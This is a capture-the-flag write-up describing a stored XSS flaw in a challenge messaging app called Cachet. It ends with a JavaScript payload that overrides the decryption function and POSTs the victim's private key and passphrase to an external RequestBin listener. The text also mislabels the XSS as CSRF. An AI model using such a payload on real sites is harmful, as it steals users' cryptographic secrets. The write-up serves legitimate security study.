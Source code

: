 Knowing (from the challenge description) that Mr. Assange uses the
Cachet messaging app frequently, it is not unrealistic trying to
attack not just the web application but Mr. Assange indirectly.

After some testing and/or source code analysis an XSS vulnerability
can be found in the encrypted message on the message reading/decryption page.
In more detail: the application trusts the encrypted message without
validation when including it on the reading/decryption page
and it can be manipulated easily when sending.

This way an attacker can send a malicious message to the victim
by manipulating the sending function of the application. With a
well-crafted malicious message the attacker can (partially)
take control over the victim and perform unwanted actions
(e.g. by injecting malicious Javascript code).

This is the classical
[Cross-Site Request Forgery attack](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

Because the injection point is on the message reading page
where the user enters his/her private key and private key pass
in order to decrypt the message, it is an instant threat
to the private key and pass (which is not stored on
the server for higher security(!)).


### Stealing the private key

Knowing the above XSS vulnerability, stealing Mr. Assange's private key
and private key pass is almost trivial.

The required CSRF attack is sending a malicious message to Mr. Assange
(and hope that Mr. Assange opens that message and tries to decrypt it).
The payload of the malicious message should (e.g.) override the
decryption Javascript function `decryptMessage` on the reading/decryption
page and send the entered private key and private key pass via a Javascript
`XMLHttpRequest` call to the attacker.

Some practical info: for CTF challenges (but not for real attacks! :) )
using online services is preferable and very comfortable.
For HTTP listener (to catch the injected `XMLHttpRequest` from Mr. Assange)
[RequestBin](http://requestb.in/),
for URL Encode
[url-encode-decode.com](http://www.url-encode-decode.com/) was used.

Here is the Javascript payload which steals and transmits the private
key and private key pass to the previously created http://requestb.in/1kwhkwc1 listener:

```javascript
<script>
function decryptMessage() {
    var privkey = document.getElementById("privkey").value.trim();
    var user_pass = document.getElementById("msg-subject").value;

    var xhrSend = new XMLHttpRequest();
    xhrSend.open("POST", "http://requestb.in/1kwhkwc1", true);
    params  = 'privKey=' + encodeURI(window.btoa(privkey));
    params += 'user_pass=' + user_pass;
    xhrSend.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhrSend.send(params);
};
</script>
```
